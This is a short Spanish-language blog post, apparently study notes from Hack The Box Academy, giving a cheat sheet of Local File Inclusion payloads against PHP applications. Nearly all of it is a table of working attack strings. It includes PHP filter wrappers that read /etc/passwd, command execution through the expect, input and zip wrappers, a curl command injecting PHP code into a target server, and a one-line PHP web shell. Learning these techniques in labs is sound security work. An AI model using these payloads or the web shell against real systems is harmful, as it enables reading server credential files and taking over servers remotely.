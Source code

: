 ```yaml
---
layout: post
title: Cheet Sheet LFI
autor: Lucho
categories: [Cheet Sheet]
---
```


_La vulnerabilidad ‘Local File Inclusion’ permite a un atacante leer un archivo del servidor vulnerable, se produce debido a un error de programación de la pagina._

![LFI](https://storage.googleapis.com/attackdefense-public.appspot.com/banners/webapp/local-file-inclusion/banner.png)

| **Command** | **Description** |
| --------------|-------------------|
| `php://filter/read=convert.base64-encode/resource=/etc/passwd` | PHP filter to convert file contents to Base64 |
| `php://filter/read=string.rot13/resource=/etc/passwd`   | PHP filter to convert file contents to ROT13 |
| `expect://id` | Command execution with PHP `Expect` wrapper |
| `curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input"` | Using PHP `Input` wrapper for command execution |
| `zip://malicious.zip%23exec.php&cmd=id` | Command execution with the PHP `Zip` wrapper |
| `<?php system($_GET['cmd']); ?>` | PHP web shell file contents (i.e., shell.php) |

<br>

## Recursos

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

[PayloadBox](https://github.com/payloadbox/rfi-lfi-payload-list)

**By [Academy Hack The Box](https://academy.hackthebox.eu/)**